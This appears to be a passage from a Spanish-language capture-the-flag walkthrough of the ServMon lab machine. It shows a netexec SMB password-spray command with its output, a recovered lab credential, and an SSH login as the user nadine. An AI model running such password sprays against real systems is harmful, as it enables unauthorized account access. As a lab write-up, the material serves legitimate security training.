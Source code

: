 BINGO!!!
Se pudo obtener una lista de contraseñas.
De esta forma se hizo un ataque de password spray para probar cada una de estas contraseñas con un usuario que tenemos.
~~~bash
sudo netexec smb 10.10.10.184 -u users -p pass --continue-on-success
SMB         10.10.10.184    445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)                                                                                                                                                          
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [+] ServMon\nadine:L1k3B1gBut7s@W0rk 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] Connection Error: Error occurs while reading from remote(104)
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE
~~~
Obteniendo un resultado valido para "nadine", como solo se tiene abierto el puerto 22 para interactuar con el servidor, se prueba ello para obtener acceso.
~~~bash
ssh nadine@10.10.10.184                                                          
The authenticity of host '10.10.10.184 (10.10.10.184)' can't be established.
ED25519 key fingerprint is SHA256:WctzSeuXs6dqa7LqHkfVZ38Pppc/KRlSmEvNtPlwSoQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.184' (ED25519) to the list of known hosts.
nadine@10.10.10.184's password: 
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>
~~~
Obteniendo acceso valido.

---
## User Flag
